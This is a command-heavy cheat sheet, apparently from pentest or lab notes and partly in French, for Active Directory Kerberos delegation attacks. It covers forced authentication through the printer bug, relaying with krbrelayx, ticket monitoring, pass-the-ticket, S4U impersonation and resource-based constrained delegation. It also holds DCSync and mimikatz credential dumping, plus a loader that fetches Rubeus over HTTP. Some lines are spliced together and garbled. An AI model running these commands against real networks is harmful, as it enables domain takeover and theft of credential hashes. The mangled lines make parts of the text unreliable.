


findDelegation.py "<domain>" "<user>" "<password>"MATCH (c:Computer {unconstraineddelegation:true}) RETURN cMATCH (u:User {unconstraineddelegation:true}) RETURN uMATCH p=(b:Base)-[:AllowedToDelegate]->(c) RETURN p MATCH p=(h:Computer)-[:CanDelegate]->(c:Computer {name:"<TARGETFQDN>"}) RETURN p
# starts the ticket monoitor
## watch for TGTs every seconds
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:TECHCORP-DC$ /interval:5 /nowrap
## ON LINUX START kerberos relay on vulnerable controlled machine
/opt/krbrelayx/krbrelayx.py -hashes :02cb8258df07966e32677128e5ff1d26
# on student VM: exploits MS-RRPN interface (printer bug) to force the DC to authenticated to the unconstrained serve us-web
C:\AD\Tools\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-web.usnetexec smb dc1.delegate.vl -u 'oxdf$' -p 0xdf0xdf. -M coerce_plus -o LISTENER=oxdf.delegate.vl METHOD=PrinterBug.techcorp.local
## on linux netexec has coerce_plus module that will test common methods
nxc smb dc1.delegate.vl -u 'oxdf$' -p 0xdf0xdf. -M coerce_plus
## linux exploit if success it will save TGT ccache
netexec smb dc1.delegate.vl -u 'oxdf$' -p 0xdf0xdf. -M coerce_plus -o LISTENER=$controlledVulnerableDNS METHOD=PrinterBug
# pass the ticket using the stolen tikcte
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args ptt /ticket:<BASE64_TICKET_HERE>
# dcsync
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:techcorp\krbtgt /domain:techcorp.local" "exit"
## linux DCSYNC
KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache nxc smb dc1.delegate.vl --use-kcache --ntds
mimikatz privilege::debug sekurlsa::tickets /export
Rubeus dump /luser /nowrap
Rubeus ptt /ticket:<krbtgt_ticket.kirbi>
TRUST_TO_AUTH_FOR_DELEGATION
# Obtenir un TGT pour soi
Rubeus asktgt /user:<account> /rc4:<hash>
# S4U2Self → ticket de service à son propre SPN
Rubeus s4u /ticket:<tgt> /impersonateuser:administrator /msdsspn:HTTP/<svc> /altservice:cifs/ldap
# S4U2Proxy → ticket de service pour la cible
Rubeus s4u /ticket:<s4u2self.kirbi> /impersonateuser:administrator /msdsspn:cifs/<target>
◇ ◇ Résultat : Kerberos TGS pour le service cible.TRUSTED_FOR_DELEGATION
addcomputer.py -computer-name <Z> -computer-pass "<Passw0rd!>"
kdcldap.py delegate --from Z$ --to constrained$ -d <domain>
getST.py -spn host/<constrained> -impersonate Administrator -dc-ip <dc_ip> -hashes <Z_hash>
Le but est d'avoir admin sur une machine dont on a les droits GenericWrite
Le seul usage de RBCD sinon c'est pas exploitable car c'est la service qui delegue pas le user
addcomputeraccount -computer-name <comp> -computer-pass "<Pass>"
setrbcd.py -delegate-from <comp>$ -delegate-to <victim>$
getST.py -spn cifs/<victim> -impersonate Administrator -dc-ip <dc_ip> -domain <dom> <comp>$:<Pass>
getTGT.py -dc-ip <dc_ip> -hashes <machine_hash> <domain>/<machine$>
getST.py -spn host/<dc> -impersonate "administrator" -dc-ip <dc_ip> \
-k -no-pass <domain>/<machine$>
◇ ◇ ➜ Kerberos TGT → Admin 🩷 sans interaction utilisateur.Livrables phase 9